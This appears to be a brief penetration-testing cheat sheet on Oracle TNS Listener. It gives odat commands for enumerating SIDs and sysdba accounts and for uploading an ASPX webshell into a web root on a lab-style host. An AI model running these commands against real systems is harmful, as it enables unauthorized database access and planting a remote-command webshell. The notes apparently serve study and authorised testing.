 # Oracle TNS Listener
Typically port(s) 1521, 1522 - 1529
[This](https://github.com/quentinhardy/odat) repo has good information on the attack surface/vector for Oracle TNS Listener.

Running odat
```bash
$ odat all -s <IP> -p <PORT>
```

This should be enough to get you started.
If you happen to find Service Identifier Names (SID) which are databases, you can begin to enumerate more specifically. 
For instance, see if any of the accounts are sysdba. This will give you the information to mount an attack.
```bash
$ odat all -s 10.10.10.10 -d <SID> -U <USER> -P <PASS> --sysdba
```

You can upload files using dbmadvisor (sanity check)
```bash
$ odat dbmadvisor -s 10.10.10.10 -D <SID> -U <USER> -P <PASS> --sysdba --putFile C:\\inetpub\\wwwroot webshell.aspx /usr/share/webshells/aspx/cmdasp.aspx
```
